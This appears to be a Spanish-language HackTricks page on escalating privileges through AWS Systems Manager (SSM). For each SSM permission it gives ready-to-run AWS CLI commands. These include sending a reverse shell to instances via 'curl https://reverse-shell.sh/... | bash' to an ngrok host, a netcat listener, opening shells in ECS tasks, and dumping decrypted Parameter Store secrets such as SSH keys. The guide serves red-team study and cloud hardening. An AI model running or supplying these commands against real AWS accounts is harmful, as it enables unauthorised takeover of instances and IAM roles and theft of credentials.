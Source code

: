# AWS - Escalada de privilegios en SSM

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Red Team de HackTricks en AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## SSM

Para más información sobre SSM, consulta:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un atacante con el permiso **`ssm:SendCommand`** puede **ejecutar comandos en instancias** que ejecutan el Agente Amazon SSM y **comprometer el Rol IAM** que se está ejecutando dentro de ella.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
En caso de que estés utilizando esta técnica para escalar privilegios dentro de una instancia EC2 que ya ha sido comprometida, simplemente puedes capturar la reverse shell localmente con:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impacto Potencial:** Escalada de privilegios directa a los roles IAM de EC2 adjuntos a las instancias en ejecución con agentes SSM en funcionamiento.

### `ssm:StartSession`

Un atacante con el permiso **`ssm:StartSession`** puede **iniciar una sesión similar a SSH en las instancias** que ejecutan el Agente SSM de Amazon y **comprometer el Rol IAM** que se está ejecutando dentro de ella.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Para comenzar una sesión, necesitas tener instalado el **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impacto potencial:** Escalada de privilegios directa a los roles IAM de EC2 adjuntos a las instancias en ejecución con agentes de SSM en funcionamiento.

#### Escalada de privilegios a ECS

Cuando las **tareas de ECS** se ejecutan con **`ExecuteCommand` habilitado**, los usuarios con suficientes permisos pueden usar `ecs execute-command` para **ejecutar un comando** dentro del contenedor.\
Según [**la documentación**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), esto se logra creando un canal seguro entre el dispositivo que se utiliza para iniciar el comando "_exec_" y el contenedor de destino con SSM Session Manager.\
Por lo tanto, los usuarios con `ssm:StartSession` podrán **obtener una shell dentro de las tareas de ECS** con esa opción habilitada simplemente ejecutando:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impacto potencial:** Escalada de privilegios directa a los roles de `ECS`IAM adjuntos a las tareas en ejecución con `ExecuteCommand` habilitado.

### `ssm:ResumeSession`

Un atacante con el permiso **`ssm:ResumeSession`** puede re-**iniciar una sesión similar a SSH en las instancias** que ejecutan el Agente Amazon SSM con un estado de sesión SSM **desconectado** y **comprometer el Rol IAM** que se está ejecutando dentro de ella.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impacto Potencial:** Escalada de privilegios directa a los roles de IAM de EC2 adjuntos a las instancias en ejecución con agentes de SSM en ejecución y sesiones desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un atacante con los permisos mencionados podrá listar los **parámetros de SSM** y **leerlos en texto claro**. En estos parámetros, a menudo se puede **encontrar información sensible** como claves SSH o claves API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impacto potencial:** Encontrar información sensible dentro de los parámetros.

### `ssm:ListCommands`

Un atacante con este permiso puede listar todos los **comandos** enviados y, con suerte, encontrar **información sensible** en ellos.
```
aws ssm list-commands
```
**Impacto Potencial:** Encontrar información sensible dentro de las líneas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un atacante con estos permisos puede listar todos los **comandos** enviados y **leer la salida** generada, con suerte encontrando **información sensible** en ella.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impacto potencial:** Encontrar información sensible dentro de la salida de las líneas de comando.

### Codebuild

También puedes usar SSM para acceder a un proyecto de codebuild en construcción:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
